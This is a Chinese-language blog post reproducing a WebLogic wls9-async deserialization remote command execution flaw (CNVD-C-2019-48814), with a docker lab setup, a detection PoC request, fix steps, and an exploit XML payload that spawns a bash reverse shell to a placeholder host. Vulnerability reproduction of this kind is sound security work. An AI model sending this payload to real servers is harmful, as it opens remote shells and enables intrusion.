 ```yaml
---
layout: post
title:  "weblogic 远程命令执行漏洞分析 (CNVD-C-2019-48814)"
date:   2019-8-2 16:18:43
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: weblogic 远程命令执行漏洞分析
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```


## weblogic 远程命令执行漏洞  (CNVD-C-2019-48814）
### 漏洞概述
该漏洞存在于 wls9-async 组件，这个组件主要作用是异步通讯服务，攻击者可以向 /_async/AsyncResponseService 路径下传入构造好的恶意 xml 格式的数据，传入的数据在服务器端反序列化时，执行其中的恶意代码，从而可以 getshell。
### 漏洞环境搭建
docker 快速启动：
```bash
docker pull ismaleiva90/weblogic12

docker run -d -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```
访问：ip:7001/_async/AsyncResponseService 查看 wls9-async 组件是否启动成功
![avatar](/assets/img/posts/20190426101059760.png)
nmap 检测插件 [weblogic.nse](https://github.com/Rvn0xsy/nse_vuln/tree/master/weblogic/CNVD-C-2019-4814) 

### 漏洞复现
#### Poc：
向/_async/AsyncResponseService发送XMLPoc，连接类型content-type: text/xml：
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="POC">
<array class="xx" length="0">
</array>
<void method="start"/>
</void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```
如果 res.status_code == 202 则可以判断存在漏洞

#### Exp：
向/_async/AsyncResponseService发送XMLPoc，连接类型content-type: text/xml：
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```
### 漏洞修复
禁用bea_wls9_async_response组件

删除wls9_async_response的war包并重启

禁止访问 /_async/* 路径。